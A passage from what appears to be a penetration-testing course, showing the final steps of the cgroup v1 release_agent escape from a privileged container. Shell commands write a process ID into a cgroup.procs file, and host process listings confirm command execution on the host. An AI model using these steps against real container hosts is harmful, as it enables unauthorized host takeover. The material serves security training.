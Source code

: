 ```
victim_release_agent:~# sleep 30 &

victim_release_agent:~# echo $! > /tmp/cgrp/x/cgroup.procs
victim_release_agent:~#
[1]+  Done                       sleep 30

victim_release_agent:~# head /output
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.2 166860 11068 ?        Ss   12:40   0:01 /sbin/init
root           2  0.0  0.0      0     0 ?        S    12:40   0:00 [kthreadd]
root           3  0.0  0.0      0     0 ?        I<   12:40   0:00 [rcu_gp]
root           4  0.0  0.0      0     0 ?        I<   12:40   0:00 [rcu_par_gp]
root           5  0.0  0.0      0     0 ?        I<   12:40   0:00 [netns]
root           7  0.0  0.0      0     0 ?        I<   12:40   0:00 [kworker/0:0H-events_highpri]
root           9  0.0  0.0      0     0 ?        I<   12:40   0:00 [mm_percpu_wq]
root          10  0.0  0.0      0     0 ?        S    12:40   0:00 [rcu_tasks_rude_]
root          11  0.0  0.0      0     0 ?        S    12:40   0:00 [rcu_tasks_trace]
```

> Listing 60 - Starting a Process and Moving it to our Cgroup

Excellent! We were able to execute a command on the host.

It's easy to become impatient if we have to wait 30 seconds for each command to terminate to get the output. Let's improve this part of the exploit.

We can start a process that will echo its PID to the appropriate file and immediately exit. We can **echo** the PID of the current process with the **$$** variable. Furthermore, we also need to wrap the entire echo command in a **sh** command.

Before we run this, we'll remove the current **output** file.

```
victim_release_agent:~# rm /output

victim_release_agent:~# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

victim_release_agent:~# head /output
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.2 166860 11068 ?        Ss   12:40   0:01 /sbin/init
root           2  0.0  0.0      0     0 ?        S    12:40   0:00 [kthreadd]
root           3  0.0  0.0      0     0 ?        I<   12:40   0:00 [rcu_gp]
root           4  0.0  0.0      0     0 ?        I<   12:40   0:00 [rcu_par_gp]
root           5  0.0  0.0      0     0 ?        I<   12:40   0:00 [netns]
root           7  0.0  0.0      0     0 ?        I<   12:40   0:00 [kworker/0:0H-events_highpri]
root           9  0.0  0.0      0     0 ?        I<   12:40   0:00 [mm_percpu_wq]
root          10  0.0  0.0      0     0 ?        S    12:40   0:00 [rcu_tasks_rude_]
root          11  0.0  0.0      0     0 ?        S    12:40   0:00 [rcu_tasks_trace]
```

> Listing 61 - Faster execution of exploit

At this point we have immediate execution of our script and can escape the container.

This cgroup exploit is a well known exploit for escaping a privileged container. However, while cgroup v1 is still in use now, it will be phased out over time. There are also other exploits we can use to escape a container.
